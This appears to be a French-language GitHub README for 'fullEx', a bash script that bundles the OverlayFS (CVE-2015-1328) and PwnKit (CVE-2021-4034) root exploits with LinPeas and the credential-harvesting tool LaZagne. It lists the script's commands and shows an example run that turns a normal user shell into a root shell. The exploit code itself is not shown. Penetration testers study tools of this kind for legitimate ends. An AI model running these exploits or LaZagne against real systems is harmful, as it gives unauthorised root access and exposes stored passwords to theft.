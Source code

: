 # <img width="1335" height="890" alt="image" src="https://github.com/user-attachments/assets/c947aebb-593b-4027-bc50-ac87663ff387" />


Les exploits root & outils dispo :

💀 OverlayFS

💀 PwnKit

🤖 LinPeas

👾 LaZagne

# ⚙️ Commandes

```
heisenberg@kb-server:~/fullEx$ ./fullEx.sh -help
                                                                                                    
 $$$$$$\            $$\ $$\ $$$$$$$$\           
$$  __$$\           $$ |$$ |$$  _____|          
$$ /  \__|$$\   $$\ $$ |$$ |$$ |      $$\   $$\ 
$$$$\     $$ |  $$ |$$ |$$ |$$$$$\    \$$\ $$  |
$$  _|    $$ |  $$ |$$ |$$ |$$  __|    \$$$$  / 
$$ |      $$ |  $$ |$$ |$$ |$$ |       $$  $$<  
$$ |      \$$$$$$  |$$ |$$ |$$$$$$$$\ $$  /\$$\ 
\__|       \______/ \__|\__|\________|\__/  \__|

               by M0rPH3U53
 
 
Usage: ./fullEx.sh COMMAND
 
Commands:
   -LinPeas       Execute LinPeas
   -LaZagne       Execute LaZagne

OverlaysFS
   -OverC         Compile le script C#
   -Overlays      Overlays64 - CVE-2015-1328

   -PwnKit64/32   PwnKit64/32 - CVE-2021-4034    
   -check         Verifie si gcc est installer
   -perm          Applique les droit d'execution
   -help          Affiche les commandes
 ```
# 💲 Exemple

```
heisenberg@kb-server:~/fullEx$ bash fullEx.sh -perm
heisenberg@kb-server:~/fullEx$ ./fullEx.sh -PwnKit64
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kb-server:/home/heisenberg/fullEx#    
```
